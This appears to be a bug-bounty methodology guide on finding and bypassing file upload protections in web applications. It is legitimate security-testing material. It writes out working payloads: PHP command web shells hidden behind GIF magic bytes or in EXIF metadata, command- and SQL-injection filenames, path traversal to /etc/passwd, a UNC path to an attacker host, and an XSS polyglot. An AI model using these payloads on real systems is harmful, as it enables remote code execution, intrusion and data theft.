

## Hunt

### Identifying File Upload Vulnerabilities

#### Target Discovery

1. **Map File Upload Functionality**:
   - Profile picture uploads
   - Document/attachment uploads
   - Import/export features
   - Media galleries
   - CMS admin sections
   - Backup/restore features
   - Avatar/image uploads

2. **Identify Upload Processing Patterns**:
   - Client-side validation patterns (JavaScript checks)
   - Server-side validation indicators
   - File type restrictions mentioned in UI
   - Error messages related to file types

3. **Testing Prerequisites**:
   - Collection of test files (various formats)
   - Proxy for intercepting requests (Burp Suite, ZAP)
   - Web shells for testing execution
   - MIME-type tools for manipulation
   - Containerized/sandboxed converters ready for validation (e.g., bwrap/seccomp profiles)

#### Testing Methodologies

1. **Basic File Upload Testing**:
   - Test uploading standard expected files (baseline)
   - Attempt uploading executable file types (PHP, ASP, JSP, etc.)
   - Modify content-type headers during upload
   - Change file extensions after client-side validation

2. **Extension-Based Testing**:
   - Test alternate extensions for web shells:
     ```
     .php, .php3, .php4, .php5, .phtml, .phar, .phpt, .pht, .phps, .php2, .php6, .php7, .inc, .shtml, .pgif
     .asp, .aspx, .ashx, .asmx, .cer, .asa
     .jsp, .jspx, .jsw, .jsv, .jspf
     .cfm, .cfml, .cfc, .dbm (Coldfusion)
     .pl, .py, .rb, .cgi
     ```
   - Test double extensions:
     ```
     file.jpg.php
     file.php.jpg
     file.php.jpeg
     file.php%00.jpg  # Null byte (older versions)
     file.php%20.jpg  # URL encoded space
     file.php%0d%0a.jpg # CRLF injection
     file.php.blah123jpg # If regex is weak
     ```
   - Test case sensitivity bypass:
     ```
     file.PhP
     file.Php5
     file.AspX
     file.pHp
     file.pHP5
     file.PhAr
     ```
   - Test trailing characters/delimiters:
     ```
     file.php.....
     file.php/
     file.php.\
     file.php. # Trailing dot (Windows specific)
     file.php%20 # Trailing space
     file.php%09 # Trailing tab
     file.php%0a # Trailing newline
     file.php%0d # Trailing carriage return
     file.php::$DATA # NTFS Alternate Data Stream (Windows specific)
     file. # No extension
     .html # Just extension
     ```
   - Test filename manipulation:
     ```
     # Try to cut extension with max filename length limit
     # Try empty filename: .php
     # Send filename parameter twice: filename="allowed.jpg";filename="shell.php"
     ```

3. **Content-Type Testing**:
   - Modify the Content-Type header to bypass MIME validation:
     ```
     Content-Type: image/jpeg  # actual file is PHP
     Content-Type: image/png   # actual file is PHP
     Content-Type: image/gif   # actual file is PHP
     Content-Type: application/x-php  # declared as image/jpeg when sent
     ```
   - Other Content-Type manipulations:
     ```
     # Remove Content-Type header entirely
     # Send Content-Type twice with allowed/disallowed values
     ```

4. **Magic Byte Forging**:
   - If validation relies on magic bytes, prefix the malicious file content with valid magic bytes of an allowed type.

   ```
   # Example: Add GIF header to a PHP shell
   GIF89a;<?php system($_GET['cmd']); ?>
   ```

5. **Polyglot File Testing**:
   - Create and test polyglot files (valid in multiple formats)
     ```
     GIFAR files (GIF + RAR)
     Valid Image + PHP code in EXIF metadata
     PDF + PHP code
     SVG + JavaScript for XSS
     ```
   - see [@dan_crowley's talk](http://goo.gl/pquXC2) and [@angealbertini research](https://github.com/abzcoding/Notes/blob/master/pentest/corkami.com)

6. **Path and Filename Abuse Testing**:
   - Test path traversal in filename:
     ```
     filename=../../../../etc/passwd
     filename=/etc/passwd
     filename=\\attacker-site.com\file.png # UNC Path (Windows specific, may trigger SMB connection)
     ```
   - Test injections via filename (if filename is processed unsafely):
     ```
     filename=a$(whoami)z.png # Command Injection
     filename=a`whoami`z.png  # Command Injection
     filename="a';select+sleep(10);--z.png" # SQL Injection
     filename=https://internal.service/data # SSRF attempt
     ```
   - Test DoS via large filename (e.g., 255+ characters).

7. **Archive Testing (Zip/Tar)**:
   - **Zip Slip**: Create archives with path traversal (`../../tmp/shell.php`).
   - **Symlink Abuse**: Include symlinks in archives pointing to sensitive files (`ln -s /etc/passwd link.txt`).
   - **Tar Permissions Abuse**: Create tar with restrictive parent dir permissions (`chmod 300`) but permissive subdir (`chmod 700`) containing symlinks.
   - Also test LFI access via zip wrapper: `site.com/path?page=zip://path/to/uploaded/file.zip%23shell.php`

8. **ImageMagick Testing**:
   - Test for vulnerabilities like SSRF, LFI, RCE (e.g., ImageTragick CVEs) if the server uses ImageMagick for image processing.
   - See details in the "Impact Scenarios -> ImageMagick Vulnerabilities" section.

9. **Third-Party Library Testing**:
   - Check for vulnerabilities in libraries used for processing uploads (e.g., ExifTool CVE-2021-22204).

10. **Race Condition Testing**:
    - **File Upload Race**: Rapidly request the uploaded file path immediately after initiating the upload, attempting access before validation/removal.
    - **URL-Based Upload Race**: If uploading via URL, rapidly request the temporary local copy path while the server fetches/validates.
    - **HTTP/2 Multiplex Smuggling**: Abuse concurrent stream uploads to bypass validation or size limits by interleaving unvalidated chunks.
    - **Temp path reads**: Try accessing temporary upload paths before move/scan completes.

11. **SSRF via HTTP Range Requests**:
    - If uploading via URL, try manipulating `Range` headers to potentially redirect parts of the download to internal servers.

### Bypass Techniques



#### Client-Side Validation Bypasses

1. **Disabling JavaScript**:
   - Disable JavaScript to bypass client-side checks
   - Use browser developer tools to modify the DOM

2. **Request Interception**:
   - Intercept and modify upload requests using Burp Suite or ZAP
   - Change file parameters post-validation

3. **Extension Manipulation Techniques**:

```
# Null byte injection (for PHP < 5.3.4)
shell.php%00.jpg
shell.php\x00.jpg

# Using alternate representations
shell.php.....
shell.php;.jpg
shell.php::$DATA.jpg

# Manipulating request content
1. Upload legitimate image
2. Intercept request
3. Replace file content with shell while keeping filename
```

4. **MIME-Type Manipulation**:
   - Modify Content-Type header to match expected type
   - Change file signature/magic bytes to appear as legitimate format

#### Server-Side Validation Bypasses

1. **Metadata Injection**:
   - Inject code into image metadata (EXIF)

   ```
   exiftool -Comment="<?php system(\$_GET['cmd']); ?>" payload.jpg
   ```

2. **Image Content Manipulation**:
   - Create images containing server-side code

   ```
   # PHP code in GIF file
   GIF89a;
   <?php system($_GET['cmd']); ?>
   ```

3. **Advanced Polyglot Techniques**:
   - Create files that are valid in multiple formats

   ```
   # Valid JPG and PHP
   Create JPG with PHP code after the image data
   Add PHP code to EXIF data
   ```

4. **Path Traversal in Upload Locations**:

   ```
   filename=../../../tmp/shell.php
   filename=..%2f..%2f..%2ftmp%2fshell.php
   filename=../../etc/passwd/logo.png # Example LFI attempt
   filename=\\attacker-site.com\file.png # UNC Path (Windows specific)
   ```

5. **Common DenyList Bypass**:

   ```
   escape "/" with "\/" or "//" with "\/\/"
   try single "/" instead of "//"
   remove http i.e. "continue=//google.com"
   "/\/\" , "|/" , "/%09/"
   encode, slashes
   "./" CHANGE TO "..//"
   "../" CHANGE TO "....//"
   "/" CHANGE TO "//"
   filename=..%2f..%2f..%2ftmp%2fshell.php
   # Check IIS specific extensions if applicable
   filename=shell.cer
   filename=shell.asa
   # Windows specific bypasses
   filename=shell.aspx. # Trailing dot
   filename=shell.php::$DATA # Alternate Data Stream (ADS)
   filename=shell.php:.jpg # ADS confusion
   ```

6. **GIF Comment Bypass**:
   - Inject payload within GIF comments.

   ```
   GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
   ```

7. **Magic Byte Forging**:
   - Prepend malicious file content with the magic bytes of an allowed file type.
   ```
   # Example: GIF header + PHP shell
   GIF89a;
   <?php echo 'Magic Byte Bypass'; phpinfo(); ?>
   ```

